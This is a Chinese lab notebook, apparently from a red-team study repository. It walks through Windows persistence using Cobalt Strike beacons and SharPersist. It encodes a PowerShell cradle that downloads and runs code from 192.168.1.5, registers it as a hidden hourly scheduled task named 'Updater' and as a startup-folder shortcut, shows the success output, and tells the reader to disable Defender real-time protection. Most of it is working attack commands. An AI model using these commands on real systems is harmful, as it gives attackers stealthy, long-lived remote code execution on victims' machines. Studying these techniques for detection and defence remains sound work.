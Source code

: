 # 定时任务

1. 把执行的payload转成base64

windows：
```
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://192.168.1.5:80/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==
```
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658552371913.jpg)

kali:
```
┌──(root㉿kali)-[~]
└─# str='IEX ((new-object net.webclient).downloadstring("http://192.168.1.5:80/a"))'
                                                                                                                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==                                                                          
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658552409755.png)


2. 创建定时任务

使用工具[SharPersist.exe](https://github.com/mandiant/SharPersist/releases)

教材上这个实验用到的工具放在：```C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe```

我本地复现这个实验，工具放在kali的```/root/CobaltStrike/tools/```路径


```
beacon> execute-assembly tools/SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
[*] Tasked beacon to run .NET program: SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
[+] host called home, sent: 342717 bytes
[+] received output:

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly


[+] SUCCESS: Scheduled task added

```

参数
```
-t是所需的持久性技术。
-c是要执行的命令。
-a是该命令的任何参数。
-n是任务的名称。
-m是添加任务（也可以remove，check和list）。
-o是任务频率。
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658552739085.png)


在win上,打开```Task Scheduler ```，找到定时任务```Updater```，点击run可以马上执行这个任务

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553107506.png)

收到beacon
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553273601.png)


# 启动文件夹

**注意，复现开机启动的权限维持，需要关闭靶机上的实时防护，否则不会返回beacon**

win+r打开注册表，输入```gpedit.msc```,按图操作，彻底关闭实时防护

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658555294635.png)

创建一个开机启动任务
```
beacon> execute-assembly tools/SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
[*] Tasked beacon to run .NET program: SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
[+] host called home, sent: 342719 bytes
[+] received output:

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADUAOgA4ADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup


[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: 4EF72582549967B29F66CF83BFA65F3D36EBFA8D2E0F3AB5CFE9ADFF51DC8011

```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553789330.png)

此时在```C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup```路径下会生成一个文件

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658553996815.png)

重启windows主机，拿到baecon

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1658554807580.png)